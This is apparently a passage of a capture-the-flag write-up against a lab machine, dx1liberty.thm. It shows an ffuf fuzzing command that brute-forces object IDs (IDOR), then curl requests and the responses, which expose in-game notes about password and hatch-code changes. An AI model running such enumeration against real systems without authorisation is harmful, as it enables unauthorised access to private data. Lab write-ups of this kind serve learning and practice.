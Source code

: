 ```jsx
All credentials within *should* be [redacted] - alert the administrators immediately if any are found that are 'clear text'<br/><br/>
Access granted to personnel with clearance of Domination/5F or higher only.
```

> **Insecure Direct Object Reference (IDOR) Phase**
> 

`ffuf -u 'http://dx1liberty.thm/datacubes/0FUZZ' -w <(seq 1 10000) -mc 200,301,302 -t 70 -ic`

```jsx
103                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 333ms]
233                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 327ms]
451                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 327ms]

```

`curl -iLX GET http://dx1liberty.thm/datacubes/0103`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Thu, 14 Nov 2024 07:33:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://dx1liberty.thm/datacubes/0103/
Content-Length: 325
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:33:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "5f-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 95
Vary: Accept-Encoding
Content-Type: text/html

Change ghermann password to [redacted].  Next week I guess it'll be
[redacted].  Strange guy...
```

`curl -iLX GET http://dx1liberty.thm/datacubes/0233`

```jsx
HTTP/1.1 301 Moved Permanently
Date: Thu, 14 Nov 2024 07:33:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://dx1liberty.thm/datacubes/0233/
Content-Length: 325
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Thu, 14 Nov 2024 07:33:32 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sat, 22 Oct 2022 14:08:50 GMT
ETag: "c5-5eba018fbc080"
Accept-Ranges: bytes
Content-Length: 197
Vary: Accept-Encoding
Content-Type: text/html

From: Data Administration<br/>
To: Maintenance<br/><br/>

Please change the entry codes on the east hatch to [redacted].<br/><br/>

NOTE: This datacube should be erased immediately upon completion.
```